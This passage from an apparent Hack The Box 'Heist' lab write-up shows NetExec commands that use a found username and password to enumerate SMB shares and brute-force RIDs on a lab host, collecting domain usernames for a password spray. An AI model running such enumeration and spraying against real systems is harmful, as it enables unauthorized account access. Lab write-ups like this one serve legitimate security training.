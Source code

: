 ```bash
nxc smb 10.129.252.157 -u hazard -p stealth1agent --shares
```

![image.png](/assets/images/Heist_HTB/image%2012.png)

But did’nt find anything useful in the IPC$ share.

### RID Bruteforce

If we have valid credentials to authenticate with we can do a rid brute force attack to get the list of domain objects (includes users and groups)

```bash
nxc smb 10.129.252.157 -u hazard -p stealth1agent --rid-brute
```

![image.png](/assets/images/Heist_HTB/image%2013.png)

Added the above newly found users to the usernames.txt file and updated it.

So the updated list of users is,

![image.png](/assets/images/Heist_HTB/image%2014.png)

Now again did the password spray attack with updated usernames.txt file.
